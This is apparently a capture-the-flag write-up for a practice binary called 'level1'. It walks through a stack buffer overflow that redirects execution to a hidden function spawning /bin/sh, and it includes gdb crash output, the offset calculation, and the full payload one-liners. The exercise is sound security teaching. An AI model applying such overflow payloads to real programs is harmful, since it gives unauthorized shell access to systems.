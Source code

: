 # Ret to another func

### Find address of the winnig func 

```c
void run(void)
{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```

```bash
$> objdump level1 -D | grep run
08048444 <run>:
```

### Buffer overflow

```bash
gdb➤  r < <(python3 -c "print('a' * 80)"
stopped 0x61616161 in ?? (), reason: SIGSEGV)
```

[Understand leave and ret asm](https://github.com/Gottiee/asm#call-instruction)

### Overwrite eip pointer

#### Endiannes

```bash
$> readelf level1 -e | grep Data:
  Data:                              2's complement, little endian
```

little endian mean, least significant byte first, you need to swap your address: ```\x08\x04x\x84\x44``` become ```'\x44\x84\x04\x08```

```bash
python2.7 -c "import sys; sys.stdout.write(b'a' * 76 + b'\x44\x84\x04\x08')" | ./level1
Good... Wait what?
[1]    16661 done                              python3 -c  | 
       16662 segmentation fault (core dumped)  ./level1
```

It Worded but couldn't interact with the executable. There is a trick with cat :

```cat <(python /tmp/exec.py)- | ./exploit.me```

```cat <(python2.7 -c "import sys; sys.stdout.write(b'a' * 76 + b'\x44\x84\x04\x08')") - | ./level1```

[Here a pwn Cheat sheet](https://github.com/Gottiee/Hack-Tools/blob/main/pwn/pwn.md#usefull-cmd)